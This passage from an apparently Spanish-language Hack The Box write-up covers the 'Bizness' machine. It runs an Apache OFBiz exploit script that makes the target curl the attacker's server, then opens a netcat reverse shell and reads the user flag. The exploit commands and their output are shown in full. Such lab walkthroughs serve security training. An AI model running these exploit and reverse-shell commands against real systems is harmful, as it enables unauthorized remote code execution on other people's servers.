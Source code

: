 Realizaremos una prueba básica para verificar que podemos ejecutar comandos. Para ello, nos montaremos un servidor web.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ejecutaremos el exploit para que ejecute el comando `cURL` hacía nuestro servidor web.

```bash
❯ python3 ofbiz_exploit.py https://bizness.htb rce 'curl http://10.10.16.3/gzzcoo'
The target appears to be vulnerable.
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[?] It is not possible to be certain of success. The target may not be truly vulnerable. [?]
Check if the reverse shell was established or if there is any command output.
```

Verificamos en nuestro servidor web que se ha recibido la petición `GET` desde el equipo víctima. Con lo cual, queda confirmada la ejecución de comandos.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.252 - - [16/Feb/2025 01:38:57] code 404, message File not found
10.10.11.252 - - [16/Feb/2025 01:38:57] "GET /gzzcoo HTTP/1.1" 404 -
```

El siguiente paso será obtener una Reverse Shell, para ello nos pondremos en escucha con`nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit pora proporcionarnos directamente la Reverse Shell.

```bash
❯ python3 ofbiz_exploit.py https://bizness.htb shell 10.10.16.3:443
The target appears to be vulnerable.
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[?] It is not possible to be certain of success. The target may not be truly vulnerable. [?]
Check if the reverse shell was established or if there is any command output.
```

Verificamos que hemos ganado acceso al sistema como el usuario `ofbiz`y podemos ver el contenido de la flag **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.252] 51542
bash: cannot set terminal process group (570): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt
eb342ca9148c8*******************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.
